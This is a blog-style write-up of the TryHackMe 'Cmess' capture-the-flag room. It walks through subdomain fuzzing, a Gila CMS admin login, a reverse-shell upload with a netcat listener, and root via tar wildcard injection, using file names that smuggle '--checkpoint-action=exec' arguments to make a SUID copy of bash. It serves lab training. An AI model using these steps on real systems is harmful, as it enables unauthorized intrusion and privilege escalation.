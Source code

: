 ```yaml
---
author:
  name: "papadope"
date: 2020-11-25
linktitle: Cmess
type:
- post
title: Cmess
weight: 10
series:
- Tryhackme
---
```


![Room Image](/cmess/roomimage.png)

## Deploy

First of all, let’s deploy our machine. So click on the green deploy button if you haven’t done it already. Afterwards, to access the machine, you need to be inside TryHackMe network. So, get connected to THM VPN. We are not going to talk here about how can you connect to the VPN but there are awesome guides out there that can help you manage the frustration.

This is a small room to be honest. It’s one of the smallest room that i have ever done inside THM, but that doesn’t mean that it’s not fun to play with it!

---

## Enumeration

![nmap](/cmess/nmap.png)

I started a simple nmap scan just for the first 1000 ports. I saw the port 80 open so I visited it. There was a landing page of something that looks like a blog.

We can see that it's powered by **Gila CMS**. I looked for it in google.

What I found :

- SQLi
- LFI
- XSS

* None of them actually can provide me something that i could really use here, so I thought that I could continue the enumeration process.

--- 

### Gobuster

After running **Gobuster** I found and interesting directory called **/admin**.
I visited the page. My first thought was **Let's get this party started** with Brute-Force, but then I remembered that I don't have any information about any users or something that I could actually brute-force the page with.

### Subdomains

Looked inside source-code, other directories that **Gobuster** found for me, but nothing valid or at least something that I could use. Then i though that i didn't checked about **Subdomains**.

I started a wfuzz scan with the command :

```

wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290

```

Result :

![wfuzz](/cmess/subdom.png)

There is a dev subdomain so I simply added that in my **/etc/hosts** file, so I can access it.

![etc](/cmess/editetchosts.png)

Let's visit the page, shall we?

### Dev Subdomain

![dev](/cmess/userpass.png)

After reading the conversation between them we can see that there might be a valid password on Andre.

First, i tried with just a single **andre** as username, but no luck. So I copied the hole email **andre@cmess.thm** and I got the admin panel.

---

## Admin Panel

After searching and reading about **Gila CMS** I found that you can upload a file through : 

``` 

Content -> File Manager 

```

![filemanager](/cmess/filemanager.png)

I uploaded a reverse shell inside there, but you can't see it. That's because when you upload a file, it's stored inside assets.

![assets](/cmess/insideassets.png)

Now the only thing we need to do is to open a **netcat** listener :

```

nc -lvnp 4444 (Example Port)

* Choose the port you entered in your reverse shell.

```

Go to the assets directory and click the file you uploaded.

Or you can go to the directory from your browser. 

That will also fire-up your reverse shell 🚀

```

cmess.thm/assets/nameofyourfilehere

```

![reverse](/cmess/revshell.png)

### Reverse Shell Stabilization

As always this is a very important step for me. I really enjoy having an upgraded shell to use shorcuts, etc.

How I do the process : 

- python -c 'import pty;pty.spawn("/bin/bash")'
    
    * You need to check what version of python is installed first and if python exists.

- export TERM=xterm
- stty raw -echo; fg
- hit enter

With the above process you can use an echo of your local terminal to the reversed one.

---

## Be the Andre User

After enumerating the **www-data** user with manual enumeration I did **linpeas** to be sure that I didn't miss anything.

I found a **.bak** file which you can easily find with basic enumeration and inside that file a password for Andre user was waiting for us.

---

## Inside Andre Home

I saw the **note** executable and I instantly *cat* it. 

```

Note to self.
Anything in here will be backed up!

```

I thought that there might be an interesting cronjob waiting for me there so I checked.

![cronjob](/cmess/cronjob.png)

As we can see in the above photo there is a cronjob that is backing up andre home/backup directory. This is called a wildcard.

---

## How to become root

You can do it by getting a privileged reverse shell from note executable but I wanted to do it differently.

Inside the backup directory :

1. ``echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/shell.sh``

2. ``chmod +x shell.sh``

3. ``touch /home/andre/backup/--checkpoint=1``

4. ``touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh``

5. ``Waited until bash appear in /tmp when the cronjob executes.``

6. ``I did ls -la inside /tmp to verify that bash was created.``

7. ``If yes, execute "/tmp/bash -p"``

And we got root!

![root](/cmess/root.png)

Thank you very much for reading.